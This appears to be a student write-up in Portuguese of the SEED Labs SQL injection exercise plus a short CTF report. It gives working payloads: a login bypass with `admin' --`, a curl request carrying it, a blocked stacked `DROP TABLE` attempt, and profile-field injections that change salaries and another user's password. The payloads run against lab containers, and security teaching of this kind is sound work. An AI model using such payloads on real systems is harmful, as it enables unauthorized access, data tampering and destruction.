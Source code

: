 # SEED Labs - SQL Injection

## Setup

Inicialmente adicionamos uma nova entrada nos hosts conhecidos pela máquina virtual, executando de seguida os containers fornecidos no lab e abrindo uma shell com acesso direto à base de dados. Utilizamos os seguintes comandos.

`sudo nano etc/hosts`

Em seguida colocamos no final do ficheiro:

`10.9.0.5 www.seed-server.com`

`dcbuild`:docker-compose build

`dcup`:docker-compose up

## Task 1

Começamos por correr o comando  `docker exec -it mysql-10.9.0.6 bash`, para abrir uma shell no container do MySQL. Em seguida usamos `mysql -u root -pdees` para login na base de dados. Para mostrar todas as tabelas dentro da mesma, usamos os seguintes comandos

```sql
use sqllab_users;
show tables;
```

Finalmente para obtermos os dados da Alice corremos `SELECT * FROM credential WHERE name='Alice'`

Resultando em:
![](docs/images/task1.png)

## Task 2

### Task 2.1

Dado o trecho de código no ficheiro `unsafe_home.php`, a vulnerabilidade reside no facto de que as variáveis `input_uname` e `hashed_pwd` serem inseridas diretamente na query sem a devida higienização. 

Uma vez que sabemos que o username da conta do administrador é "admin", conseguimos explorar a vulnerabilidade de SQL Injection introduzindo `admin' --` no input do username:

    username: admin' --
    password: (qualquer coisa ou deixar em branco)

O `--` efetivamente transforma o resto da query num comentário, ignorando a verificação da palavra-passe.

Resultando em:
![](docs/image/task2.1.png)

### Task 2.2

Para realizar o mesmo ataque de SQL Injection mas na CLI usamos o comando:

```bash
curl 'http://www.seed-server.com/unsafe_home.php?username=admin%27%20--%20&Password='

```

### Task 2.3

Para adicionar uma nova instrução normalmente usariamos um ponto e vírgula ;. No entanto, isto é prevenido como medida de segurança da extensão de PHP _mysqli_, para evitar a execução de múltiplas instruções numa só consulta.

Exemplo de uma tentativa que foi bloqueada por esta contramedida:

    Utilizador: admin'; DROP TABLE credential; --
    Palavra-passe: (qualquer coisa ou deixar em branco)

![](docs/images/task2.3.png)

### Task 3

### Tarefa 3.1
Na página de edição de perfil, inserimos uma injeção SQL no campo `nickname`(mas podia ser qualquer um) usando o comando `', salary=12345678 WHERE name='Alice'; #`.

### Tarefa 3.2
Decidindo punir o nosso chefe utilizámos a página de edição de perfil para reduzir o salário dele, mas desta vez com o comando `', salary = '860' WHERE name='Boby'; #`.

### Tarefa 3.3
Para alterar a password do Boby usámos comando `', password=sha1('construtor') WHERE name='Boby'; #`.

Resultado:
![](docs/images/task3.png)


# CTF Semana #8 (SQL Injection)

Começamos por analizar o ficheiro PHP(index.php) para tentar perceber como as queries SQL são formadas a partir do input do utilizador.

Tentámos de seguida os ataques mais comuns a nível de SQL injection.
Primeiro tentamos "or""=" mas não resultou. Tentámos 'or''=' e assim conseguimos obter acesso de admistrador obtendo assim a flag.

![](docs/images/Captura_de_ecrã_2023-11-21_174501.png)
![](docs/images/Captura_de_ecrã_2023-11-21_175443.png)

